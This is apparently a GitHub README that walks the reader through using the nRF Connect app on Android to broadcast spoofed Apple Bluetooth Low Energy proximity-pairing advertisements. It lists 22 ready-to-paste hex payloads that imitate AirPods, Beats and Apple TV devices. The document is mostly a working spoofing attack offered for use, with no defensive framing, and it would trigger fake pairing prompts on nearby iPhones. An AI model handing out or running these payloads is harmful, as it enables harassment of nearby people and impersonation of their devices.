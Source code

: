 # Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise

# Plese Follow Below Steps & Instructions To Do this Propper

First of all you need to download nRF Connected App Use below link to download it
https://www.nordicsemi.com/Products/Development-tools/nrf-connect-for-mobile

- After downloaded that apk then you need to install it.
- After opening the app and giving the relevant permission, you can see an interface like this....
  
  ![20231008_224809](20231008_224809.gif)


  ![repo views](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FVehanRajintha%2FSpoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise&count_bg=%2379C83D&title_bg=%23555555&icon=gitpod.svg&icon_color=%23E7E7E7&title=Views&edge_flat=false)

![Docker Size](https://img.shields.io/docker/image-size/VehanRajintha/Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise?style=flat&logo=docker&label=Docker+Size)
![Docker Pulls](https://img.shields.io/docker/pulls/VehanRajintha/Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise?style=flat&logo=docker&label=Docker+Pulls)

![forks](https://img.shields.io/github/forks/VehanRajintha/Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise?label=Forks&style=social)
![stars](https://img.shields.io/github/stars/VehanRajintha/Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise?style=social)

![size](https://img.shields.io/github/repo-size/BlackAmda/QueenAmdi?color=purple&label=Repo%20Size&style=plastic)
![license](https://img.shields.io/github/license/BlackAmda/QueenAmdi?color=purple&label=License&style=plastic)
![developer](https://img.shields.io/static/v1?label=Author&message=Vehan%20Rajintha&color=purple&style=plastic)


- Now enable Bluetooth adapter and click the Advertiser secter.
- Now click the  +  icon at the down of the right hand corner.
- Type anything for Display name section
- Now click ADD RECORD & Select Manufacturer Data.
- Put 004C to Company Identifier.
- Now you need to put PayloadCodes to Hex Data  section & Hit enter.

  Every payload code is down there, all they have to do is copy the payload code of the device they want to spoof and put it in the place called Hex Data.
  

 **Payload Data**

1.Airpods

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x02, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

2.AirpodsPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0e, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

3.AirpodsMax

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0a, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

4.dataAirpodsGen3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x13, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

5.AirpodsProGen2

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x14, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

6.PowerBeats

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x03, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

7.PowerBeatsPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0b, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

8.BeatsSoloPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0c, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

9.BeatsStudioBuds

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x11, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

10.dataBeatsFlex

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x10, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

11.BeatsX

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x05, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

12.BeatsSolo3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x06, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

13.BeatsStudio3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x09, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

14.BeatsStudioPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x17, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

15.BeatsFitPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x12, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

16.BeatsStudioBudsPlus

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x16, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

17.AppleTVSetup

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x01, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

18.AppleTVPair

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x06, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

19.AppleTVNewUser

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x2b, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

20.AppleTVWirelessAudioSync

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0xc0, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

21.AppleTVHomekitSetup

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x0d, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

22.AppleTVKeyboard

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x13, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````
















  
